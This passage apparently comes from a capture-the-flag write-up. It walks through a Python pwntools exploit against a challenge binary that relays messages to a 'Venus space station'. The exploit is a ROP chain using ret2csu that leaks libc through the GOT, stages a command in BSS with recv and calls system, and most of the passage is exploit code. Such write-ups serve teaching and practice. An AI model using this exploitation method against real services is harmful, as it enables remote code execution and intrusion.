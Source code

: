 ```python
payload += p64(len(command))        # r14 -> rdx, len for recv
payload += p64(binary.got.recv)     # r15 pointer to function to call
payload += p64(set_rdx_rsi_rdi_call_r15)
# eat ret2csu pops
payload += p64(0) * 7

# back to recv_message for a 2nd pass
payload += p64(pop_rdi)
payload += p64(fd)
payload += p64(binary.sym.recv_message)
```

Above is our first payload, from the top down, this will pad out to `0x418` (see Analysis section) and place our ROP chain at the return address in the stack.

Next, using `printf` we'll reset `rcx` to zero; after that we'll use _ret2csu_ to set the other three parameters and then call `send` from the GOT to leak the address of `puts` (also from the GOT).

At this point we'll have a libc leak and could proceed with the 2nd pass and get everything else we need from libc, however, I'm lazy, and the buffer is plenty large enough that I just cut/pasted the previous and modified it--if space constrained I may have had to do something different.

`rcx` will no longer be zero, so we'll need to reset again.  The `printf` block is a ROP gadget short to keep the [stack aligned](http://blog.binpang.me/2019/07/12/stack-alignment/).  Fixing can usually be done by adding or removing a `ret` gadget (`pop_rdi+1` is a `ret` gadget).

Following the second `printf` `rcx` hack is another _ret2csu_ block, but this calls `recv` to write our `system` command to the BSS--it's common to use the BSS segment as a small scratch pad.

Finally we `pop` the FD (0x4) into `rdi` so we can call `recv_message` for a second pass.

At this point all we've done is login and create a ROP chain, nothing has been executed.


```python
# catch and send stuff to ropchain
p.sendlineafter(b'processed:\n',payload)
p.recvline()
p.recvline()
_ = p.recv(6)
libc.address = u64(_ + b'\0\0') - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
p.send(command)
```

The above block will launch our attack, then ignore the first two lines of text:

```python
send(param_1,"Message sent to the Venus space station.\nEnter message:\n",0x38,0);
```

Now, our ROP chain starts to execute, first it will leak the libc address of `puts`, which we can use to compute the base of libc, then we send the `command` for the waiting `recv` function.


```python
# 2nd pass payload to call system
payload  = b''
payload += 0x418 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binary.bss())
payload += p64(libc.sym.system)

p.sendline(payload)
p.stream()
```
